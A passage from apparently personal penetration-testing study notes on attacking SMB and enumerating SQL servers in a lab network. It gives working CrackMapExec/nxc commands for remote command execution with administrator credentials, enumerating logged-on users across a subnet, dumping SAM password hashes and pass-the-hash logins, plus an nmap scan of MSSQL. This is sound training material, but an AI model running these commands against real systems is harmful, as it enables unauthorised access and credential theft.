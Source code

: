 
Another tool we can use to run CMD or PowerShell is `CrackMapExec`. One advantage of `CrackMapExec` is the availability to run a command on multiples host at a time:
```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

#### <mark class="hltr-grey">Enumerating logged on users</mark>

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use `nxc` to enumerate logged-on users on all machines within the same network `10.10.110.17/24`, which speeds up our enumeration process.

```shell-session
nxc smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

Or we can enumerate logged on users on a single host:
```shell-session
nxc smb 10.10.110.4 -u administrator -p 'Password123!' --loggedon-users
```

#### <mark class="hltr-grey">Extract hashes from SAM Database</mark>

```shell-session
nxc smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

#### <mark class="hltr-grey">Pass The Hash (PtH)</mark>

If we manage to get an NTLM hash of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called Pass-the-Hash (PtH).

```shell-session
nxc smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```


---

# <mark class="hltr-pink">SQL</mark>

## <mark class="hltr-cyan">Enumeration</mark>

By default, MSSQL uses ports <mark class="hltr-green">TCP/1433</mark> and <mark class="hltr-green">UDP/1434</mark>, and MySQL uses <mark class="hltr-green">TCP/3306</mark>. However, when MSSQL operates in a "hidden" mode, it uses the <mark class="hltr-green">TCP/2433</mark> port.

```shell-session
nmap -Pn -sV -sC -p1433 10.10.10.125
```

## <mark class="hltr-cyan">Authentication Mechanisms</mark>
